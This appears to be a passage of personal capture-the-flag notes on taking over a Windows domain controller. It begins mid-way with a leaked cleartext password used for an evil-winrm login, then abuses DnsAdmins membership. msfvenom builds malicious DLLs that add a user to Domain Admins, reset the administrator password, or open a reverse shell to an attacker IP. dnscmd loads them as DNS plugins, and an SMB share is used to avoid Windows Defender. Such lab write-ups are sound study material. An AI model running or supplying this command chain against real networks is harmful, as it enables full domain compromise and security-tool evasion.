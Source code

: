 ryan Serv3r4Admin4cc123!
```
net user ryan
net localgroup "Remote Management Users"
ryan belongs to Contractors belongs to it
```
```bash
evil-winrm -i $IP -u ryan -p 'Serv3r4Admin4cc123!'
```

### Privilege Escalation
`whoami /priv` nothing interested so `whoami /group`
#### Windows Group Privileges
Built-in Groups - DnsAdmins
##### DnsAdmins
Generating Malicious DLL with `msfvenom`
```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" ryan /add /domain' -f dll -o adduser.dll

or

msfvenom -p windows/x64/exec cmd='net user administrator Qwer4321!' -f dll -o adminpwd.dll

or 

msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.16.13 lport=9389 -f dll -o rev.dll <- This one works. Maybe because the box is weird. And revshell is reliable than others.
```
```
dnscmd.exe /config /serverlevelplugindll C:\Users\ryan\desktop\adduser.dll

sc stop dns

sc start dns

net group "Domain Admins" /dom
```
##### Transferring to the box will trigger Windows Defender. So use smbserver to bypass it.
```bash
sudo /usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support -user as -password as
```

```
net use \\10.10.16.13\share /u:as as

dnscmd.exe /config /serverlevelplugindll \\10.10.16.13\share\adduser.dll
dnscmd.exe /config /serverlevelplugindll \\10.10.16.13\share\shell.dll
dnscmd.exe /config /serverlevelplugindll \\10.10.16.13\share\rev.dll
dnscmd.exe /config /serverlevelplugindll \\10.10.16.13\share\adminpwd.dll

sc stop dns
sc.exe stop dns
sc start dns
sc.exe start dns

net group "Domain Admins" /dom
```
